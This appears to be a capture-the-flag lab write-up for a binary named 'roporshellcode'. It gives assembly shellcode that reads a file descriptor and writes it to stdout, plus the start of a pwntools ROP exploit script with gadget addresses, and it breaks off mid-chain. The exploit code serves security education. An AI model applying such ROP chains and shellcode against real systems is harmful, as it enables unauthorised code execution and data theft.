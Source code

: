 	```
	
	
## roporshellcode
* checksec first: PIE disabled 
* cant use libc gadgets since there is no possible ways to leak the addr of libc base addr
* check `readelf -s roporshellcode` no read/write func can be exploited
* build shellcode 

	```
	MOV RDX, 200
	XOR RAX, RAX
	MOV RDI, 3
	MOV RSI, RSP
	SYSCALL
	
	MOV RAX, 1;
	MOV RDI, 1;
	MOV RDX, 200
	MOV RSI, RSP
	SYSCALL
	```
	
* search useful gadgets from binary 

* script 

	```
	from pwn import *

	context.arch = 'amd64'
	elf = ELF('./roporshellcode')  # Load the target binary
	
	# Set up remote or local debugging environment
	if args.R:
	    p = remote('6447.lol', 7003)
	elif args.H:
	    p = process('./roporshellcode')
	else:
	    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	    p = gdb.debug('./roporshellcode',
	                  gdbscript='''
	                      b *main
	                      c
	                      ''')
	
	xor_rdx = 0x00000000004011bf  # xor rdx, rdx; ret
	inc_rdx = 0x00000000004011cf  # add rdx, 1; ret
	mov_rax_rdi_from_rdx = 0x00000000004011d4  # mov rax, rdx; mov rdi, rdx; ret
	inc_rdi = 0x00000000004011db  # inc rdi; ret
	syscall = 0x00000000004011c3  # syscall; ret
	
	
	# Construct the ROP chain
	rop_chain = []
	# Read
	# XOR RAX RAX
	rop_chain.append(xor_rdx)
	rop_chain.append(mov_rax_rdi_from_rdx)  # Move RDX (0) to RAX and RDI
	